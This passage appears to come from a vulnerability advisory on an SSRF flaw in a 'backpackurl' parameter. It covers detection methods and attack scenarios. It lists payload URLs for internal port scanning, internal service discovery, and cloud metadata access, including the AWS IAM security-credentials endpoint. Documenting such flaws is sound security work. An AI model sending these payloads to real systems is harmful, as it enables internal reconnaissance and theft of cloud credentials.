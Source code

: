 ### Detection Methods

- **External listener setup** (as demonstrated in PoC)
- **DNS interaction tracking** using services like Burp Collaborator
- **HTTP request logging** on controlled infrastructure
- **Timing analysis** for internal vs. external requests

## Impact Assessment

### Potential Attack Scenarios

#### 1. Internal Network Reconnaissance

```bash
# Port scanning internal services
backpackurl=http://192.168.1.10:22/
backpackurl=http://192.168.1.10:80/
backpackurl=http://192.168.1.10:443/
backpackurl=http://192.168.1.10:8080/
```

#### 2. AWS Metadata Service Access

```bash
# Accessing AWS instance metadata
backpackurl=http://169.254.169.254/latest/meta-data/
backpackurl=http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

#### 3. Internal Service Discovery

```bash
# Discovering internal services
backpackurl=http://internal-api.company.com/
backpackurl=http://admin-panel.internal/
backpackurl=http://database.internal:3306/
```

#### 4. Cloud Provider Metadata

```bash
# Google Cloud metadata
backpackurl=http://169.254.169.254/computeMetadata/v1/
# Azure metadata
backpackurl=http://169.254.169.254/metadata/instance
```

### Security Implications

1. **Internal Network Mapping** - Attackers can discover internal infrastructure
2. **Cloud Metadata Access** - Potential access to sensitive cloud instance information
3. **Service Enumeration** - Discovery of internal applications and databases
4. **Compliance Violations** - Unauthorized network access attempts
